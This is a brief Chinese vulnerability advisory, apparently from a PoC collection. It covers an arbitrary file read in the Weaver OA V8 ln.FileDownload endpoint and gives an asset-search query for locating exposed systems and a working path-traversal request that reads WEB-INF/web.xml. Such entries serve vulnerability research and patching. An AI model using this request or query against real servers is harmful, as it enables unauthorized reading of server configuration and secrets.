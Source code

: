 # 泛微OA E-Weaver ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628479897544-b1d9da8a-4336-4371-b54f-22285b235ee9.png)

验证POC

```php
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628479992921-2645d12d-2180-4e6f-bd87-8d1e2ff2cbb7.png)



